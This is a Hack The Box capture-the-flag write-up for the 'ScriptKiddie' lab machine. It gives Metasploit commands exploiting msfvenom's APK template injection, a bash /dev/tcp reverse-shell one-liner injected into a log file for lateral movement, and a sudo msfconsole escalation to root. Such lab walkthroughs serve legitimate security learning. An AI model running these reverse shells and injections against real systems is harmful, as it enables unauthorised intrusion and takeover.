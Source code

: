 # ScriptKiddie
![banner](https://github.com/f4T1H21/HackTheBox-Writeups/blob/main/Boxes/ScriptKiddie/src/banner.png)

|Topics               |Details              |
|:--------------------|:--------------------|
| Creator             | [0xdf](https://app.hackthebox.eu/profile/4935)|
| Enumeration         | Slightly required   |
| Scripting           | Not required        |
| Custom Exploitation | Not required        |
| Real Life           | Nope                |

## My thoughts on the box
This box is obviously for beginners; simple steps, you don't need to have advanced skills. I enjoyed solving it, thanks to 0xdf.

BTW (Not Arch XD) this is my first writeup I hope it helps you. 
Constructive feedback is appreciated.

[My Hack The Box profile](https://app.hackthebox.eu/profile/184235)
## Reconnaissance
I started with nmap: ``nmap -sS -sC -sV 10.10.10.226``

![nmap](https://github.com/f4T1H21/HackTheBox-Writeups/blob/main/Boxes/ScriptKiddie/src/nmap.png)

As you can see here we have two ports open. We can't hack it from it's ssh in this case, let's go with port 5000 which runs an http server through python.

We see a site that runs `nmap` and `msfvenom`, let's check if it is running properly.

![site](https://github.com/f4T1H21/HackTheBox-Writeups/blob/main/Boxes/ScriptKiddie/src/site.png)

It is working well in nmap. I also noticed something interesting in the site, a "`template file`" was required to generate reverse tcp `payloads`.

Googling it up gives us more interesting things XD

![site](https://github.com/f4T1H21/HackTheBox-Writeups/blob/main/Boxes/ScriptKiddie/src/search.png)

https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/

## Exploiting and getting a shell
So we have an msf module that creates a malicious apk file, which will be using in tcp/5000's msfvenom payload generator and expected to give us a reverse shell. Worth to try..

Let's first create our fellow template by using these commands:
```
msfconsole
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set lhost tun0 #Your VPN ip address
set lport 2121
run
```
![msfapk](https://github.com/f4T1H21/HackTheBox-Writeups/blob/main/Boxes/ScriptKiddie/src/msfapk.png)

We got a malicious template file, we just need to move it to our working directory and set a netcat listener.
```bash
mv /root/.msf4/local/msf.apk .
nc -lvnp 2121
```
![nc](https://github.com/f4T1H21/HackTheBox-Writeups/blob/main/Boxes/ScriptKiddie/src/nc.png)

Last but not least, go to http://10.10.10.226:5000 and generate a payload using our malicious template file as shown below.

![payloadapkset](https://github.com/f4T1H21/HackTheBox-Writeups/blob/main/Boxes/ScriptKiddie/src/payloadapkset.png)

**Boom, we got a reverse shell as the user kid!!** (Don't forget to get your user flag XD)

![payloadapkset](https://github.com/f4T1H21/HackTheBox-Writeups/blob/main/Boxes/ScriptKiddie/src/gotusershell.png)


## Privelege escalation to pwn user
After a really basic enumeration, I noticed an interesting executable in /home/pwn

![payloadapkset](https://github.com/f4T1H21/HackTheBox-Writeups/blob/main/Boxes/ScriptKiddie/src/nmapaspwn.png)

As I understand so far from the code, what we put inside ``/home/kid/logs/hackers`` is executed as pwn user. Now we're going to put a reverse shell in it and get a shell as **pwn** user.

Let's first set a nc listener on another port:
```
nc -lvnp 4040
```

Now we can put a reverse shell syntax inside the `hackers` file. But here the thing is: I was not able to just get a reverse shell using just ``bash tcp`` reverse shell, so I customized the syntax a bit.

Don't forget to change the ip address.

```bash
echo "  ;bash -c '0<&196;exec 196<>/dev/tcp/YOURIPHERE/2121; sh <&196 >&196 2>&196' # " > /home/kide/logs/hackers
```

![gotshellaspwn](https://github.com/f4T1H21/HackTheBox-Writeups/blob/main/Boxes/ScriptKiddie/src/gotshellaspwn.png)

**BOOM, we got another reverse shell as pwn user!!**

## Privilege escalation to root
Before doing any enumeration, let's check fi we can use ``sudo -l`` passwordless.

![sudo-l](https://github.com/f4T1H21/HackTheBox-Writeups/blob/main/Boxes/ScriptKiddie/src/sudo-l.png)

This is so funny :P Just run msfconsole with sudo privileges to become root XD
```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
/bin/bash
```
![root](https://github.com/f4T1H21/HackTheBox-Writeups/blob/main/Boxes/ScriptKiddie/src/root.png)

***And we sucessfully pwned the machine..***

![finish](https://github.com/f4T1H21/HackTheBox-Writeups/blob/main/src/finish.gif)

## Closing
[Click](https://app.hackthebox.eu/profile/184235) to give me respect on Hack The Box.

Thanks for reading, see you on another .md file ..

Resources:
```
https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/
```

***Written by f4T1H***

